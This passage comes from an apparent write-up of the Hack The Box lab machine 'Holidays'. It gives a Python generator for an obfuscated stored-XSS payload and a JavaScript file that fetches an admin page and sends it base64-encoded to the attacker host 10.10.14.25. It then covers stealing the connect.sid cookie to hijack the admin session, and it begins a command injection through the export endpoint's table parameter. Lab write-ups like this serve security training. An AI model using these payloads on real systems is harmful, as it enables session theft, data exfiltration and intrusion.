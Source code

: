 Representing JavaScript with character codes can be automated in Python, as shown below. To make things easy, we use a payload which requests a JavaScript file from a remote host which it then executes. We save this file with the name "generateEvilNote.py" for later use. Note that the IP `10.10.14.25` is the IP of the attacking computer and might thus be different depending on your VPN connection.

{% highlight Python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

Next, we put the JavaScript below in a file named "x.js". This code requests a specific booking page, encodes the response with base64 and then sends us the base64 encoded response. The idea is to retreive a specific booking page in the context of the administrator, since the page might include interesting session specific content. Note that the IP `10.10.14.25` has to be changed to your IP over the VPN connection for the script to be successful.

{% highlight JavaScript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

The next step is to start a web server by executing 
`sudo python3 -m http.server 80` in the directory where the `x.js` file is located. Thereafter, we generate the payload by executing `python3 generateEvilNote.py`, submit it as a note and wait for less than a minute. After waiting for a bit, the web server receives a request for the `x.js` file and a subsequent request which leaks the base64 encoded response. 

We can then proceed to copy the base64 encoded content from the web server output and putting it in a file named "x.b64". Then, we simply execute the command `cat x.b64 | base64 -d`, retrieve the cookie named "connect.sid" from the output of the command, place it in our browser session and navigate to `http://10.10.10.25:8000/admin`. At this point, we have hijacked the administrators session and navigating to the URL thus leads us to the page shown below. 

![export](/assets/2021-10-30-HTB-Holidays-Source-Code-Analysis/export.png)

When logged in as an administrator, there is a possiblity to export bookings or notes by pushing the buttons at the bottom of the page shown above. Pushing one of the buttons sends a `GET` requests to the "/admin/export" endpoint which includes a table name in a parameter named "table". After trying to send a variety of URL encoded special characters through this parameter, it is possible to deduce that the value of the `table` parameter is placed in a bash command which is executed. However, there is a filter in place which only allows for certain characters. One of the characters is the ampersand character `&` which can be used to execute any bash commands which can pass the filter.
